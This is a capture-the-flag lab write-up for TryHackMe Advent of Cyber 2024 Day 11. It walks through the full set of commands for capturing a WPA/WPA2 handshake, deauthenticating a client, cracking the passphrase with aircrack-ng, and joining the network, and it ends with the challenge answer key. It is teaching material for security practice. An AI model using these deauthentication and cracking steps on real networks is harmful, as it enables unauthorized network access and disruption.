 # 🎄 TryHackMe Advent of Cyber 2024 – Day 11: Wi-Fi Attacks

## Objectives 🎯

Day 11 provides an in-depth exploration of Wi-Fi security and a hands-on demonstration of WPA/WPA2 cracking. This exercise highlights the vulnerabilities in wireless networks and the importance of strong security practices.

### Goals:
1. Learn about Wi-Fi and its critical role in organizations.
2. Understand various Wi-Fi attack techniques.
3. Perform a WPA/WPA2 cracking attack to capture a 4-way handshake and decrypt the Wi-Fi password (PSK).

## Steps 🚀

### Step 1: Preparing the Environment
1. **Start Machines**:  
   - Press the **Start Machine** button to initialize the target machine.  
   - Press the **Start AttackBox** button to set up the AttackBox environment.
2. **SSH into the Target Machine**:  
   Use the credentials provided:
   ```
   ssh glitch@MACHINE_IP
   Password: Password321
   ```

### Step 2: Analyzing Wireless Interfaces
1. **Check Wireless Device Information**:  
   Run `iw dev` to identify available wireless interfaces.  
   - **BSSID of our wireless interface**: `02:00:00:00:02:00`.
2. **Scan for Nearby Networks**:  
   Execute `sudo iw dev wlan2 scan` to list available Wi-Fi networks.  
   - **SSID and BSSID of the access point**: `MalwareM_AP, 02:00:00:00:00:00`.

### Step 3: Setting Monitor Mode
1. **Switch to Monitor Mode**:  
   ```
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```
2. **Confirm Monitor Mode**:  
   Use `sudo iw dev wlan2 info` to verify the interface is now in monitor mode.

### Step 4: Open a Second SSH Terminal
1. **Establish a Second SSH Session**:  
   Open another terminal to create a second SSH session into the target machine. This allows you to monitor Wi-Fi traffic in one session while executing attacks in the other.

2. **Capture Wi-Fi Traffic**:  
   On the first terminal, run `sudo airodump-ng wlan2` to display nearby networks and gather details such as signal strength, channel, and encryption type.  
   - **Focus on the target network**: `MalwareM_AP`.

3. **Target the Access Point**:  
   Run `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` to capture the 4-way handshake. Let this command run as you proceed.

### Step 5: Launch a Deauthentication Attack
1. **Identify Connected Clients**:  
   When a client connected to `MalwareM_AP` is detected, its **BSSID** will appear in the STATION section.  
   - **BSSID of the connected client**: `02:00:00:00:01:00`.

2. **Send Deauthentication Packets**:  
   Use `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` to disconnect the client and force a handshake.  
   - The captured handshake will appear in the output:  
     **`WPA handshake: 02:00:00:00:00:00`**.

### Step 6: Crack the WPA/WPA2 PSK
1. **Use Aircrack-ng**:  
   Perform a dictionary attack on the captured handshake:
   ```
   sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
   ```
2. **Decrypted PSK**:  
   - **Password (PSK)**: `fluffy/champ24`.

### Step 7: Connect to the Wi-Fi Network
1. **Generate a Configuration File**:  
   ```
   wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
   ```
2. **Join the Network**:  
   ```
   sudo wpa_supplicant -B -c config -i wlan2
   ```
3. **Verify Connection**:  
   Use `iw dev` to confirm the wireless interface is connected to `MalwareM_AP`.

## Key Findings 🔑

1. **Weak Passwords**:  
   A simple password (`fluffy/champ24`) allowed the network to be cracked quickly, emphasizing the need for strong, complex passphrases.
2. **4-Way Handshake Vulnerability**:  
   WPA/WPA2 handshake data can be exploited for offline attacks, highlighting the importance of secure configurations.
3. **Monitor Mode**:  
   Demonstrates the value of specialized tools for passive network analysis and security auditing.

## Lessons Learned 🌟

### Wi-Fi Security Insights:
- **Secure Passphrases**: Always use strong, complex passwords for Wi-Fi networks.
- **Monitor Mode**: Essential for analyzing network traffic and capturing handshake data.
- **Deauthentication Attacks**: Highlight the vulnerabilities in wireless protocols and the need for additional security layers.

### Tools and Techniques 🛠️
1. **`iw` and `airodump-ng`**: Analyze and monitor wireless networks.
2. **`aireplay-ng`**: Perform deauthentication attacks.
3. **`aircrack-ng`**: Conduct dictionary attacks to crack WPA/WPA2 passwords.

## Final Thoughts 🎁

This challenge reinforces the importance of robust wireless security practices. Organizations should regularly audit their networks, enforce strong password policies, and monitor for rogue access points to protect against unauthorized access.

### Answers ✅
1. **What is the BSSID of our wireless interface?**  
   **Answer**: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point?**  
   **Answer**: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**  
   **Answer**: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**  
   **Answer**: `fluffy/champ24`

5. **If you enjoyed this task, feel free to check out the Networking module.**  
   **Answer**: No answer needed.

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](../README.md)                 | 9    | [Risk Assessment](days/day9.md)         | 17   | [Log Analysis](days/day_17.md)          |
| 1    | [OPSEC Challenge](days/day1.md)        | 10   | [Phishing](days/day_10.md)              | 18   | [Prompt Injection](days/day_18.md)      |
| 2    | [Log Analysis](days/day2.md)           | 11   | **Wi-Fi Attacks**                       | 19   | [Game Hacking](days/day_19.md)          |
| 3    | [Log Analysis](days/day3.md)           | 12   | [Web Timing Attacks](days/day_12.md)    | 20   | [Traffic Analysis](days/day_20.md)      |
| 4    | [Atomic Red Team](days/day4.md)        | 13   | [WebSockets](days/day_13.md)            | 21   | [Reverse Engineering](days/day_21.md)   |
| 5    | [XXE](days/day5.md)                    | 14   | [Certificate Mismanagement](days/day_14.md)| 22 | [Kubernetes DFIR](days/day_22.md)       |
| 6    | [Sandboxes](days/day6.md)              | 15   | [Active Directory](days/day_15.md)      | 23   | [Hash Cracking](days/day_23.md)         |
| 7    | [AWS Sandboxes](days/day7.md)          | 16   | [Azure Exploitation](days/day_16.md)    | 24   | [Communication Protocols](days/day_24.md)|
| 8    | [Shellcodes](days/day8.md)             |      | **Merry SOC-mas!** 🎁✨☃️              |      | 🎄✨🎅                                |
